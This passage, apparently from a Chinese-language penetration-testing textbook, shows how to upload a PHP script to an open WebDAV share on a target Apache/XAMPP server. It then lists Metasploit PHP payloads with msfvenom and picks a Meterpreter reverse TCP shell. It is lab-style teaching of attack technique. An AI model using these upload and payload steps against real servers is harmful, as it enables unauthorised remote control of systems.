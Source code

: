### 在目标 Web 服务器上运行脚本

文本文件对我们并没有太大用处；如果我们能上传一个脚本并在 Web 服务器上执行它，那就更好了，这样我们就能在底层系统的 Apache Web 服务器上执行命令。如果 Apache 作为系统服务安装，它将具有系统级的权限，我们可以利用这些权限来获得对目标的最大控制。如果没有，Apache 将以启动它的用户的权限运行。无论哪种情况，你最终都能通过简单地将文件丢到 Web 服务器上，就获得对底层系统的相当控制。

让我们先确认我们的 WebDAV 用户是否被允许上传脚本到服务器。由于我们在 第六章 中找到了 phpMyAdmin 软件，说明这个 Web 服务器上安装了 XAMPP 软件，包括了 PHP。如果我们上传并执行一个 PHP 文件，我们应该能够通过 PHP 在系统上执行命令。

```
dav:/webdav/> **put test.php**
Uploading test.php to `/webdav/test.php':
Progress: [=============================>] 100.0% of 5 bytes succeeded.
dav:/webdav/>
```

### 注意

一些开放的 WebDAV 服务器允许上传文本文件，但会阻止脚本文件如 .asp 或 .php。不过幸运的是，这里并非如此，我们成功上传了 test.php。

### 上传 Msfvenom 有效载荷

除了上传我们创建的任何 PHP 脚本以在目标上执行任务外，我们还可以使用 Msfvenom 生成一个独立的 Metasploit 有效载荷上传到服务器。我们在 第四章 中简要使用了 Msfvenom，但如果你需要复习语法，可以输入 `msfvenom -h` 获取帮助。当你准备好时，使用 `-l` 选项列出所有可用的 PHP 有效载荷，如 示例 8-2 所示。

示例 8-2. Metasploit PHP 有效载荷

```
root@kali:~# **msfvenom -l payloads**

    php/bind_perl❶               Listen for a connection and spawn a command
                                    shell via perl (persistent)
    php/bind_perl_ipv6            Listen for a connection and spawn a command
                                    shell via perl (persistent) over IPv6
    php/bind_php                  Listen for a connection and spawn a command
                                    shell via php
    php/bind_php_ipv6             Listen for a connection and spawn a command
                                    shell via php (IPv6)
    php/download_exec❷           Download an EXE from an HTTP URL and execute it
    php/exec                      Execute a single system command
    php/meterpreter/bind_tcp❸    Listen for a connection over IPv6, Run a
                                    meterpreter server in PHP
    php/meterpreter/reverse_tcp   Reverse PHP connect back stager with checks
                                    for disabled functions, Run a meterpreter
                                    server in PHP
    php/meterpreter_reverse_tcp   Connect back to attacker and spawn a
                                    Meterpreter server (PHP)
    php/reverse_perl              Creates an interactive shell via perl
    php/reverse_php               Reverse PHP connect back shell with checks
                                    for disabled functions
    php/shell_findsock
```

Msfvenom 给我们提供了几种选择：我们可以下载并在系统上执行一个文件 ❷，创建一个 shell ❶，或者甚至使用 Meterpreter ❸。任何这些有效载荷都能让我们控制系统，但我们选择使用 *php/meterpreter/reverse_tcp*。指定有效载荷后，我们可以使用 `-o` 来查看需要与之一起使用的选项，如下所示。
